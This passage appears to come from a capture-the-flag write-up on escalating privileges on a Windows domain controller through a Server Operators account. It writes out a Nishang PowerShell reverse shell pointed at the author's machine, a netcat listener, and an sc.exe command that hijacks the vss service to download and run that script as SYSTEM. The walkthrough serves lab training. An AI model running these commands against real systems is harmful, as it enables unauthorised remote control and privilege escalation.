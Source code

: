 The svc-printer user is a member of the following local groups:
* Print Operators
* Remote Management Use
* Server Operators

Server Operators already have some rights within a Windows Domain Controller by default according to [hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#server-operators). Since any user with the service operator has permissions to stop and start services this could be interesting as attacker when you have a service account with those permissions.

In this case I would like to use the Powershell TCP reverse shell of Nishang and start is as a service to escalte my privileges.
I copied the file to my working directory, so I could edit the file with Visual Code to add a line so the file would create a reverse shell to my machine a soon the files is loaded.

```
┌──(eMVee@kali)-[~/Documents/usefull]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
                                                                                                                    
┌──(eMVee@kali)-[~/Documents/usefull]
└─$ code shell.ps1                                                 
```                               
I added the wfollowing piece to the end of the file: **Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.26 -Port 1234**.

## Privilege escalation
Since svc-printer is member of the Server Operator you are able to run the sc.exe within the terminal. It creates a subkey and entries for a service in the registry and in the Service Control Manager database according [Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create). This could be used to create our own service which run our Powershell script for a reverse shell. If this works, probably a connection as NT Authority has been set up.


Before a service is created with a reverse shell to my machine, I have to start a netcat listener on port 1234.
```
┌──(eMVee@kali)-[~]
└─$ nc -lvp 1234                                                          
listening on [any] 1234 ...
```
Now that the netcat listener is up and running, all I need to do is make sure my python web server is running and hosting the correct file.
```
┌──(eMVee@kali)-[~/Documents/usefull]
└─$ sudo python3 -m http.server 80           
```
Everything is ready on my machine, now I can configure and start my service on the target. As soon as the service is started my reverse shell should start working.

```

*Evil-WinRM* PS C:\windows\temp> sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.26/shell.ps1')"
[SC] ChangeServiceConfig SUCCESS

*Evil-WinRM* PS C:\windows\temp> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\windows\temp> sc.exe start vss
```
The machine doesn't seem to respond after the last command, but this could also be positive, just as the web browser on a web shell sometimes doesn't respond due to loading.
So it's time to take a look at the netcat listener.
